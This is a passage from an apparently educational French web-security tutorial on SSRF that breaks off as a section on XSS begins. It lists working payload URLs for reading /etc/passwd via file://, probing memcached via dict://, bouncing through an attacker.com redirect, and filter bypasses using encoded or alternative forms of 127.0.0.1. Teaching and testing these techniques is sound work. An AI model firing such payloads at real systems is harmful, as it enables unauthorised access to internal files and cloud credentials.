 3. **Utilisation de protocoles alternatifs** :
   ```
   https://example.com/fetch?url=file:///etc/passwd
   https://example.com/fetch?url=dict://localhost:11211/info
   ```

#### Contournement des protections

1. **Redirection** :
   Créer un serveur qui redirige vers la cible interne
   ```
   https://example.com/fetch?url=https://attacker.com/redirect
   ```

2. **Encodage d'URL** :
   ```
   https://example.com/fetch?url=http%3A%2F%2Flocalhost%3A8080
   ```

3. **Utilisation d'adresses IP alternatives** :
   ```
   # Représentations alternatives de 127.0.0.1
   http://127.0.0.1
   http://localhost
   http://[::1]
   http://2130706433 (décimal)
   http://0x7f000001 (hexadécimal)
   ```

#### Outils pour tester le SSRF

- **Burp Collaborator** : Détecte les connexions sortantes
- **SSRF Sheriff** : Framework de test SSRF
- **Gopherus** : Outil pour générer des payloads Gopher

#### Exemple pratique : test simple

1. Configurez un serveur web accessible publiquement qui enregistre les requêtes
2. Injectez l'URL de ce serveur dans les paramètres potentiellement vulnérables
3. Vérifiez si votre serveur reçoit des requêtes du serveur cible
4. Analysez les en-têtes et le contenu des requêtes pour comprendre le contexte

**En clair, pour un débutant :**
Le SSRF, c'est comme si vous demandiez à un employé d'une entreprise d'aller chercher un document pour vous, mais au lieu de lui donner l'adresse du document légitime, vous lui donnez l'adresse d'un serveur interne normalement inaccessible de l'extérieur. L'employé (le serveur web) utilise son badge d'accès pour récupérer des informations auxquelles vous n'auriez pas dû avoir accès. Les métadonnées cloud sont particulièrement intéressantes car elles peuvent contenir des clés d'accès et autres informations sensibles.

### Intro to XSS (Cross-Site Scripting)

Le Cross-Site Scripting (XSS) est une vulnérabilité qui permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui sera ensuite exécuté dans le navigateur des visiteurs.

#### Types de XSS
